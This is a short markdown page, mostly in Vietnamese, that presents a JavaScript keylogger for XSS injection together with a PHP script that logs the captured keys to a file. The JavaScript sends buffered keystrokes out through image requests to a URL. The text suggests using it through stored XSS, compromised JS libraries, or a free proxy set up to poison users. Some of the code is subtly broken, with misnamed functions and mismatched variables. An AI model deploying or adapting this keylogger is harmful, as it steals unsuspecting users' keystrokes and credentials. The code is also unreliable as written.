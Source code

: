 ```yaml
---
title: Javascript,PHP Keylogger
date: 30/5/2021
layout: single
header:
  teaser: /assets/images/madoc.png
--- 
```


## Credits: Ismailtasdelen
[https://dl.packetstormsecurity.net/papers/general/xss-keylogger.pdf](https://dl.packetstormsecurity.net/papers/general/xss-keylogger.pdf) 

## Language
[![Language](https://img.shields.io/badge/Lang-javascript-blue.svg)](https://www.javascript.com/)
[![Language](https://img.shields.io/badge/Lang-php-blue.svg)](https://www.php.net/)


## Mã Kiểm Tra 

# Javascript

```js
var buffer = [];
var url = 'http://localhost/?q='

document.onkeypress = function(e) {
    var timestamp = Date.now() | 0;
    var stroke = {
          k: e.key,
          t: timestamp
    };
    buffer.push(stroke);
}

window.SetInterval(function() {
    if (buffer.length > 0) {
          var data = encodeURIComponent(JSON.stringify(buffer));
          new Image().src = url + data;
          buffer = [];
    }
}, 200);
```


# PHP

```php
<?php
if(!empty($_GET['q'])) {
    $logfile = fopen('data.txt', 'a+');
    file_write($log_file, $_GET['q']);
    file_close($log_file);
}
?>

```



# Mô Tả 
## Làm thế nào nó hoạt động?
Trên trình kích hoạt: onkeypress. Phím được nhấn bởi máy khách sẽ được gửi đến máy chủ trên localhost /? Q = (key_here)
Máy chủ sẽ nhận điều này thông qua tập lệnh PHP: Nhận đầu vào từ Q và ghi vào tệp.

Những cải tiến có thể được thực hiện: Ví dụ: triển khai websockets, Ajax, v.v. và gửi dữ liệu trong thời gian thực.

## Tôi có thể sử dụng cái này ở đâu?
XSS được lưu trữ trên các trang web? Thỏa hiệp các thư viện / trang web JS và nhúng JS độc hại.
Chạy proxy miễn phí của riêng bạn và đầu độc người dùng bằng JS độc hại (và bộ nhớ cache) Xem tại link bên dưới 
+ [ https://blog.haschek.at/2013/05/why-free-proxies-are-free-js-infection.html]( https://blog.haschek.at/2013/05/why-free-proxies-are-free-js-infection.html) 
+ [ https://blog.haschek.at/2015-analyzing-443-free-proxies](https://blog.haschek.at/2015-analyzing-443-free-proxies) 

Tạo khối lượng phần mềm độc hại của riêng bạn với HTA: html có thể thực thi, v.v.
Chỉ là một số ý tưởng.

## Chúc May Mắn :D
